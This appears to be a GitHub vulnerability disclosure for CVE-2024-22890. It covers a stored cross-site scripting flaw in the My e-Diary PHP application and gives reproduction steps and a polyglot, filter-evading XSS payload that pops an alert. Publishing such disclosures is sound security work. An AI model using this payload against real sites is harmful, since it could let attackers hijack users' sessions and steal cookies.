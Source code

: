 # CVE-2024-22890-My e-Diary App - Cross-Site-Scripting
+ *Exploit Title:* CVE-2024-22890-My e-Diary App - Cross-Site-Scripting
+ *Date:* 2024-07-01
+ *Exploit Author:* Burak Sevben
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17074/my-e-diary-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17074&title=My+e-Diary+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-22890

## Description:
The My e-Diary application is vulnerable to a cross-site scripting vulnerability because it fails to adequately sanitize user-supplied data. An attacker could exploit this issue to run arbitrary scripting code in an unsuspecting user's browser in the context of the affected site. This could allow an attacker to steal cookie-based authentication credentials and launch other attacks.


## Proof of Concept:
+ Go to http://localhost/my-e-diary/write-diary.php in the 'Your Title' section we write the this code triggers the XSS
```
jaVasCript:/-////'/"/**/(//oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--! >\x3csVg/<sVg/oNloAd=alert(document.domain)//>\x3e
```
+ Then go to 'http://localhost/my-e-diary/read-diary.php' XSS will be triggered and a pop-up will appear.

![Ekran görüntüsü 2024-01-12 010820](https://github.com/BurakSevben/CVEs/assets/117217689/dfaf9c9e-3c1a-4763-8311-e93173d69a0c)

![Ekran görüntüsü 2024-01-12 010902](https://github.com/BurakSevben/CVEs/assets/117217689/28a03d7f-2c11-4bdc-bbf4-2fd24a86514d)
